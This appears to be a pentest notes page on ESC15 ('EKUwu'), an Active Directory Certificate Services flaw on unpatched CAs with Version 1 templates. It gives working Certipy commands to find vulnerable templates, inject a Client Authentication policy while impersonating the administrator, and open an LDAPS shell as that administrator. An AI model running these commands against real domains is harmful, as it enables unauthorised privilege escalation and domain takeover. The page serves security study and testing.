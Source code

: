 # ESC15

ESC15, also called "EKUwu," is a vulnerability in Active Directory Certificate Services (AD CS) affecting **unpatched Certificate Authorities (CAs)** using **Version 1 templates**.

The issue allows an attacker to inject **arbitrary Application Policies** into a certificate request. If the CA is unpatched (pre-Nov 2024), it may incorrectly include these policies in the issued certificate—even if they contradict the template’s intended EKUs (Extended Key Usages).

#### **How It Works**

* Version 1 templates are limited and don't have a separate Application Policies configuration.
* If the template allows "Enrollee supplies subject," the attacker can submit a CSR with their own Application Policies.
* The unpatched CA blindly includes them in the certificate.

When it works an attacker is able to **make a certificate request** to escalate his privileges.

{% embed url="https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu" %}

## Identification with Certipy

{% code overflow="wrap" %}
```bash
certipy find -u 'USER@DOMAIN.COM' -p 'PASSOWRD' -dc-ip DC_IP -vulnerable -enabled
```
{% endcode %}



## Exploitation with Certipy

Certipy's `req` command, using the `-application-policies` parameter, allows attackers to specify OIDs to be injected into the Application Policies extension of the CSR. This is the mechanism used to exploit ESC15 on an unpatched CA.

{% code overflow="wrap" %}
```bash
certipy req -u 'USER@DOMAIN.COM' -p 'PASS' -dc-ip 'DC_IP' -target 'DC_NAME' -ca 'CA_NAME' -template 'WebServer' -upn 'administrator@DOMAIN.COM' -sid 'DOMAIN-SID-500' -application-policies 'Client Authentication'
```
{% endcode %}

* `-template 'WebServer'`: The vulnerable V1 template with "Enrollee supplies subject".
* `-application-policies 'Client Authentication'`: Injects the OID `1.3.6.1.5.5.7.3.2` into the Application Policies extension of the CSR.
* `-upn 'administrator@corp.local'`: Sets the UPN in the SAN for impersonation.



## Authenticate via Schannel (LDAPS) using the obtained certificate

```bash
certipy auth -pfx 'administrator.pfx' -dc-ip 'DC_IP' -ldap-shell
```

The attacker is authenticated as `CORP\Administrator` over LDAPS because Schannel on the DC honored the injected "Client Authentication" Application Policy.

